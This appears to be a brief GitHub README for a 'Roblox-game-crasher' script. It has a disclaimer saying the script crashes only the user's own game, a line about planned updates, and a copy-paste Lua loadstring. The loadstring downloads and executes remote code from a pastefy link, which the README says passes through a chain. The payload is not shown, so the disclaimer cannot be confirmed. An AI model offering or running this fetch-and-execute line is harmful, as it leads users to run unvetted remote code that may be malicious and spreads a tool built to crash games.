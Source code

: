# Roblox-game-crasher
## DISCLAIMER: THIS DOES NOT CRASH OTHER PEOPLE'S GAMES, IT ONLY CRASHES YOUR OWN !!!
Possible updates:   
Make the part really big (and make sure to have the sqrt thing)   
   
# Loadstring (goes through a chain)   
`loadstring(game:HttpGet("https://pastefy.app/gRREl7M9/raw"))()`
